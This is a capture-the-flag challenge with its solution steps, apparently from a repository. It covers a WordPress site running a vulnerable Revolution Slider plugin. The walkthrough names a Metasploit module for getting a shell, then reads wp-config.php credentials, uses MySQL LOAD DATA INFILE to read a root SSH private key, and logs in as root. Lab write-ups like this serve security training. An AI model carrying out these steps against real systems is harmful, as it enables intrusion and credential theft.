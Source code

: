 # Wordpress

I setup my own Wordpress site!

I love that there are so many plugins. My favorite is Revolution Slider. Even though it's a little old it doesn't show up on wpscan!

Please give it about 30 seconds after connecting for everything to setup correctly.

## Solution
1. Run `wpscan` on the wordpress website and find that it is using a vulnerable version of revslider
2. Setup metasploit and use the `exploit/unix/webapp/wp_revslider_upload_execute` exploit
3. Get a shell on the webserver
4. Read `note.txt` and `wp-config.php`
5. Use the creds to connect to the db server with mysql (`mysql -h <ip> -u wordpress -p`)
6. Read `/backup/id_rsa` off the db server by executing the following sql commands:
    - `use wordpress;`
    - `CREATE TABLE files (text VARCHAR(1024));`
    - `LOAD DATA INFILE '/backup/id_rsa' INTO TABLE files;`
    - `SELECT * FROM files;`
7. Copy `id_rsa` to local file
8. Use `id_rsa` to ssh into the webserver as root (`ssh -i id_rsa root@<ip>`)
9. Read `flag.txt`
    

